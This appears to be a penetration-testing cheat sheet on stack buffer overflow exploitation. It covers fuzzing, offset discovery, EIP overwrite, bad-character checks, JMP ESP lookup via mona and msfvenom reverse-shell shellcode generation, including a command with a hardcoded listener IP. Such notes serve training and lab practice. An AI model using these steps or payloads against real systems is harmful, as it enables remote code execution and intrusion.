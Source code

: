 ### Buffer Overflows


#### The Process:
- 1 Spiking [finds the vulnerable command]
- 2 Fuzzing [attacks the specific command]
- 3 Finding the Offset [pattern_create.rb -l 9001]
- 4 Overwriting the EIP
- 5 Finding Bad Characters [ref: https://ostermiller.org/calc/asciism.html]
- 6 Finding the Right Module
- 7 Generating Shellcode
- 8 Root Access

-----

# BOF

- 1. Connect find commands
```bash
nc -nv $IP $PORT
```

- 2. [Spike](/1_method/3_Exploitation/1_Buffer_Overflows/1_STATS.spike)
check if vulnerable

- 3. [Fuzzing](/1_method/3_Exploitation/1_Buffer_Overflows/2_fuzzing_simple.py)
```bash
msf-pattern_create -l <length>
```
Record value on EIP, select ESP and click "Follow in Dump"  
```bash
msf-pattern_offset.rb -q <value> -l <length>  
```
Use !mona to find the offset after the overflow
```bash
!mona findmsp  
```

**1. Check buffer length to trigger overflow** 

**2. Cofirm overflow length, append "A" * length**  

**3. Generate Offset to check EIP, ESP location**  
  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

	Record value on EIP, select ESP and click "Follow in Dump"  
	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value> -l <length>  

	Use !mona to find the offset after the overflow  
	!mona findmsp  

**4. Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode**

**5. Check bad characters after EIP. common bad characters are 0x00, 0x0A. Follow dump in ESP to check are there something missing after that.**
Add code:

	badchar = [0x00]
	for ch in range (0x00 , 0xFF+1):
		if ch not in badchar:
			<payload> += chr(ch)

**6. Find JMP ESP address in the system.**
```
msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
	JMP ESP = FFE4
```
	!mona jmp -r esp -cpb "\x00\x0A" << bad character

	!mona modules
	!mona find -s "\xff\xe4" -m brainpan.exe

	check the value of the address by naviate to it.
	Set breakpoint
	Change "B" in EIP to the address of JMP ESP << little edian (reverse order)
	
	e.g. 0x311712f3 >> "\xf3\x12\x17\x31"

	Run again to check is the breakpoint triggered

**7. Add shellcode**
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.166 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
	Add a few \x90 before shellcode to avoid shellcode being modify

	msfvenom -p windows/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -a x86 -platform windows -b "\x00"
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -b "\x00"

**Bonus: Running out of shell code space?**
Use the front of payload instead
1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address
	/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

	JMP EAX/EBX/ECX/EDX

3. Append the address as shell code.
4. Add payload to the front


